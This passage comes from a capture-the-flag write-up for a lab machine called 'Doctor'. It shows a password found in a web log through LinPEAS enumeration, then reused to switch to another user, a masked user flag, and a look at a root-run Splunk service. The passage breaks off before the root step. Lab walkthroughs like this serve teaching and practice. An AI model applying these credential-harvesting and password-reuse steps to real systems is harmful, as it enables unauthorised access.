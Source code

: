 I ran Linpeas and found this:

```bash
╔══════════╣ Finding passwords inside logs (limit 70)
10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```

There is a password in a log file `Guitar123`. That is not an email as it may be intended by the script. Let's try for a password reuse:

```bash
web@doctor:~$ su shaun
Password: 
shaun@doctor:/home/web$ id
uid=1002(shaun) gid=1002(shaun) groups=1002(shaun)
```

That worked, I got a shell as shaun.

### User Flag

---

I should be able to read the user flag:

```bash
shaun@doctor:~$ ls
user.txt
shaun@doctor:~$ cat user.txt
34**************************c7cf
```

There is the flag, now, let's get root.

## shaun → root

---

I run LinPEAS again with the new user account:

```bash
════════════════════════════════════╣ Processes, Cron, Services, Timers & Sockets ╠════════════════════════════════════                                                                                                                      
╔══════════╣ Cleaned processes                                                                                                                                                                                                               
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes
---snip---
kernoops     952  0.0  0.0  11240   448 ?        Ss   20:11   0:00 /usr/sbin/kerneloops
root        1138  0.0  2.2 259516 88408 ?        Sl   20:11   0:06 splunkd -p 8089 start
```

I noticed that the splunkd is running as root. So I thought I give it a shot and try for a password reuse (password of shaun):
